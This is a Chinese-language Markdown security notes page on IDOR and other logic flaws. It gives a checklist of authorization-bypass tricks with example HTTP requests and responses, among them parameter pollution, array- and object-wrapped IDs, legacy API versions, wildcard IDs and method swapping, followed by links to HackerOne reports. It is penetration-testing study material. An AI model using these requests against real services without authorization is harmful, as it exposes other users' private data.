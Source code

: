 - [逻辑漏洞概述](#逻辑漏洞概述)
- [绕过授权](#绕过授权)
  - [漏洞报告 (Hackerone)](#漏洞报告-hackerone)
- [接口泄露 #TODO](#接口泄露-todo)
  - [一个登录框可以做什么](#一个登录框可以做什么)
- [越权漏洞 #TODO](#越权漏洞-todo)

**相关链接**

- <https://cn-sec.com/archives/1171492.html>
- <https://vickieli.medium.com/intro-to-idor-9048453a3e5d>

## 逻辑漏洞概述

IDOR，Insecure Direct Object reference，即"不安全的直接对象引用"，场景为基于用户提供的输入对象进行访问时，未进行权限验证。IDOR漏洞其实在越权（Broken Access Control）漏洞的范畴之内，也可以说是逻辑漏洞，或是访问控制漏洞，国内通常被称为越权漏洞。

## 绕过授权

```
在末尾添加参数
HTTP 参数污染
如果站点是用 Ruby 构建的，则将.json 添加到末尾
测试历史 API 版本
用数组嵌套 ID
用 JSON 对象嵌套 ID:
参数污染
```

- 在末尾添加参数

```
GET /api_v1/messages --> 401
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP 参数污染

```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- 如果站点是用 Ruby 构建的，则将.json 添加到末尾

```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- 测试历史 API 版本

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

- 用数组嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

- 用 JSON 对象嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

- 参数污染

```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- 尝试对base64,etc,md5加密的参数解密

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
dmljdGltQG1haWwuY29t => victim@mail.com
```

- 尝试用数字替换 UUID

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
GET /file?id=302
```

- 更换HTTP请求方式

```
GET /api/v1/users/profile/111 HTTP/1.1
POST /api/v1/users/profile/111 HTTP/1.1
OPTIONS * HTTP/1.1
```

- 使用通配符替换ID

```
GET /api/users/111 HTTP/1.1
GET /api/users/* HTTP/1.1
GET /api/users/% HTTP/1.1
GET /api/users/_ HTTP/1.1
GET /api/users/. HTTP/1.1
```

- 尝试使用一个通配符(*)来代替 ID。这种方法很少见，但是有时候是有效的
- 如果ID参数为数字，请确保通过大量的数字进行测试，而不是通过猜测
- 如果 URI 类似于/api/users/myinfo，请检查/api/admins/myinfo
- GET/POST/PUT 用 GET/POST/PUT 替换请求方法
- 使用BurpSuite autorize拓展
- 如果这些都不起作用，那就使用你所能想到的方式，到处去看看

### 漏洞报告 (Hackerone)

- [IDOR to delete images from other stores](https://hackerone.com/reports/404797)
- [IDOR in changing shared file name](https://hackerone.com/reports/547663)
- [User uploaded portfolio files can be accessed by any user even after deleted](https://hackerone.com/reports/300179)
- [IDOR and statistics leakage in Orders](https://hackerone.com/reports/544329)
- [I.D.O.R To Order,Book,Buy,reserve On YELP FOR FREE (UNAUTHORIZED USE OF OTHER USER&#39;S CREDIT CARD)](https://hackerone.com/reports/391092)
- [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
- [IDOR allow to extract all registered email](https://hackerone.com/reports/302485)
- [IDOR at https://account.mackeeper.com/at/load-reports/profile/profile_id leaks information about devices/licenses](https://hackerone.com/reports/783117)
- [IDOR bug to See hidden slowvote of any user even when you dont have access right](https://hackerone.com/reports/661978)
- [IDOR on update user preferences](https://hackerone.com/reports/854290)
- [idor on upload profile functionality](https://hackerone.com/reports/741683)
- [IDOR to view User Order Information](https://hackerone.com/reports/287789)
- [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)
- [Replace other user files in Inbox messages](https://hackerone.com/reports/322661)

## 接口泄露 #TODO

### 一个登录框可以做什么

接口中的信息泄露，利用接口

![图 2](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087136881.png)

![图 3](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087222310.png)

接口 FUZZ 模糊测试可能包含的接口。

![图 4](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087247927.png)

![图 5](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087592488.png)

## 越权漏洞 #TODO

**相关链接**

- <https://www.freebuf.com/vuls/223500.html>
